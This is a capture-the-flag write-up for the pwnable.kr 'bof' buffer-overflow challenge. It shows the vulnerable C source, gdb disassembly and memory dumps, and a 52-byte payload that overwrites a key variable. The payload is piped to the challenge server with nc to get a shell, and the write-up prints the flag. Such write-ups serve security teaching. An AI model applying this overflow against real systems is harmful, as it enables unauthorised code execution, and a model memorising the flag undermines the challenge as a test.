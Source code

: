 # 3 - bof
The second challenge hosted on pwnable.kr

## Description
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000

## Solution
Ok, lets start by downloading the provided binary and source code, and taking a look at bof.c.

```
apt-get install libc6-i386
```

Downloading bof.c...
```
wget http://pwnable.kr/bin/bof.c
```

Looking at the source code...
```
$ cat bof.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
We can see that main starts a function, and passes 0xdeadbeef as parameter. this parameter is later compared to 0xcafebabe, and if we can enter this if statement we can get the flag.
So we need to try to change the content of the key variable in the function, so that the if test will resolve to true.
We get a nice hint in the gets function on how to do this :)

Ok, lets compile an executable and get to debugging.
*Note: if you are on a 64bit system you might need to download and install the following package in order to be able to compile it to 32-bit (which makes the adresses a litle bit more bareable)*
```
$ sudo apt-get install g++-multilib
```
Compile it;
```
$ gcc -m32 bof.c -o bof
```
Ok, lets get to debugging! :)

```
$ gdb bof
```
Looking at main we can see the function defined 'func'. Lets inspect it.

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804856a <+0>:	lea    0x4(%esp),%ecx
   0x0804856e <+4>:	and    $0xfffffff0,%esp
   0x08048571 <+7>:	pushl  -0x4(%ecx)
   0x08048574 <+10>:	push   %ebp
   0x08048575 <+11>:	mov    %esp,%ebp
   0x08048577 <+13>:	push   %ecx
   0x08048578 <+14>:	sub    $0x4,%esp
   0x0804857b <+17>:	sub    $0xc,%esp
   0x0804857e <+20>:	push   $0xdeadbeef
   0x08048583 <+25>:	call   0x80484fb <func>
   0x08048588 <+30>:	add    $0x10,%esp
   0x0804858b <+33>:	mov    $0x0,%eax
   0x08048590 <+38>:	mov    -0x4(%ebp),%ecx
   0x08048593 <+41>:	leave  
   0x08048594 <+42>:	lea    -0x4(%ecx),%esp
   0x08048597 <+45>:	ret    
End of assembler dump.

(gdb) disas func
Dump of assembler code for function func:
   0x080484fb <+0>:	push   %ebp
   0x080484fc <+1>:	mov    %esp,%ebp
   0x080484fe <+3>:	sub    $0x38,%esp
   0x08048501 <+6>:	mov    %gs:0x14,%eax
   0x08048507 <+12>:	mov    %eax,-0xc(%ebp)
   0x0804850a <+15>:	xor    %eax,%eax
   0x0804850c <+17>:	sub    $0xc,%esp
   0x0804850f <+20>:	push   $0x8048620
   0x08048514 <+25>:	call   0x8048390 <printf@plt>
   0x08048519 <+30>:	add    $0x10,%esp
   0x0804851c <+33>:	sub    $0xc,%esp
   0x0804851f <+36>:	lea    -0x2c(%ebp),%eax
   0x08048522 <+39>:	push   %eax
   0x08048523 <+40>:	call   0x80483a0 <gets@plt>
   0x08048528 <+45>:	add    $0x10,%esp
=> 0x0804852b <+48>:	cmpl   $0xcafebabe,0x8(%ebp)
   0x08048532 <+55>:	jne    0x8048546 <func+75>
   0x08048534 <+57>:	sub    $0xc,%esp
   0x08048537 <+60>:	push   $0x804862f
   0x0804853c <+65>:	call   0x80483d0 <system@plt>
   0x08048541 <+70>:	add    $0x10,%esp
   0x08048544 <+73>:	jmp    0x8048556 <func+91>
   0x08048546 <+75>:	sub    $0xc,%esp
   0x08048549 <+78>:	push   $0x8048637
   0x0804854e <+83>:	call   0x80483c0 <puts@plt>
   0x08048553 <+88>:	add    $0x10,%esp
   0x08048556 <+91>:	nop
   0x08048557 <+92>:	mov    -0xc(%ebp),%eax
   0x0804855a <+95>:	xor    %gs:0x14,%eax
   0x08048561 <+102>:	je     0x8048568 <func+109>
   0x08048563 <+104>:	call   0x80483b0 <__stack_chk_fail@plt>
   0x08048568 <+109>:	leave  
   0x08048569 <+110>:	ret    
End of assembler dump.
```

Great, so we find our comparison, (=>).
We can add a breakpoint by giving it the adress.
```
(gdb) break *0x0804852b
```

Lets try to run it, and see if we can find the local key variable in the memory. I know that A's will appear as \x41 in memory, so I will input a bunch of these to the input to see if I can find them.
```
(gdb) run
Starting program: bo
overflow me : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Breakpoint 1, 0x0804852b in func ()
(gdb)
```
Ok, lets inspect the memory. We can use xw to display 32bit words (instead of 8, making it easier for us to see our patterns).
```
(gdb) x/20xhw $esp
0xffffcd40:	0x00000000	0xffffcde4	0xf7fb7000	0x41414141
0xffffcd50:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd60:	0x41414141	0x41414141	0x41414141	0x39ea8200
0xffffcd70:	0x00000002	0x00000003	0xffffcd98	0x08048588
0xffffcd80:	0xdeadbeef	0xffffce44	0xffffce50	0x080485c1
```
Ok, so we can see where our array of A's start. We can also see that 0xdeadbeef appears exactly 13 words later. Luckily for us, we can remember from bof.c that the variable that our input is assigned to is only allocated 32 bytes, but our input is never checked to be less than 33 bytes. Therefore we can overflow this, and try to change the content of the local key variable, which we now know where is stored. So 13 words * 4 bytes in each word gives us a total of 52 bytes we need to write. Then we can append what we know to be the real password '\xca\xfe\xba\xbe'. However the system is most likely little endian, so we must remember to reverse it,
'\xbe\xba\xfe\xca'.
Thus, our input will be: 52*'A'+'\xbe\xba\xfe\xca'.
We can try  to feed this into our program and verify that we have overwritten the key.
We can give this as stdin to our gdb with python.
```
(gdb) run <<< $(python -c "print'A'*52+'\xbe\xba\xfe\xca'")
Starting program: bo <<< $(python -c "print'A'*52+'\xbe\xba\xfe\xca'")

Breakpoint 1, 0x0804852b in func ()
(gdb) x/20xw $esp
0xffffcd40:	0x00000000	0xffffcde4	0xf7fb7000	0x41414141
0xffffcd50:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd60:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd70:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd80:	0xcafebabe	0xffffce00	0xffffce4c	0x080485c1
```

## Awesome (•̀ᴗ•́)و ̑̑

Lets try and feed it to the ctf server.

```
$ (python -c "print 'A'*52+'\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000
whoami
bof
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```
